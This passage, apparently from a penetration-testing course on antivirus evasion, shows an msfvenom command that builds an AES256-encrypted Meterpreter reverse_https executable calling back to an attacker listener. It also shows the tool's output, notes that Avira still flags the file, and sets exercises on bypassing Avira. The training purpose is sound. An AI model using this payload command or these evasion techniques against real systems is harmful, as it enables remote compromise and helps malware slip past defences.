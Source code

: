 > Listing 23 - Listing msfvenom encryption types

Leveraging the strength of aes256[1](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fn-local_id_271-1) encryption, we'll generate an executable with aes256-encrypted shellcode and use a custom encryption key through the --encrypt-key option (Listing 24).

```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 --encrypt aes256 --encrypt-key fdgdgj93jf43uj983uf498f43 -f exe -o /var/www/html/met64_aes.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 625 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/met64_aes.exe
```

> Listing 24 - Using AES256 encryption with msfvenom

Let's copy the encrypted executable to our Windows 10 victim machine and run an on-demand Avira scan:

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/avi/a6a4775dd9de370aa4cc82374b4d099d-avi_msf_aviraaes.png" alt="Figure 7: Avira detecting AES encrypted Meterpreter"><figcaption><p>Figure 7: Avira detecting AES encrypted Meterpreter</p></figcaption></figure>



Unfortunately, our executable is still flagged. A Rapid7 blog post[2](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fn-local_id_271-2) suggests this feature is effective for antivirus evasion, but the decryption routine itself can still be detected since it is static.

Our analysis so far has revealed that encryption will not be effective for bypassing security solutions if the decoding or decryption techniques are static, since they will be analyzed and eventually signatures will be written for them.

It's time to change tactics once again. The most effective solution at this point is to write our own shellcode runner. In the next section, we'll begin this process.

**Exercises**

1. Generate a Metasploit executable using aes256 encryption and verify that it is flagged.
2. Experiment with different payloads, templates, and encryption techniques to attempt to bypass Avira.

1

(Wikipedia, 2020), [https://en.wikipedia.org/wiki/Advanced\_Encryption\_Standard](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fnref-local_id_271-1)

2

(Rapid7, 2018), [https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/](https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fnref-local_id_271-2)
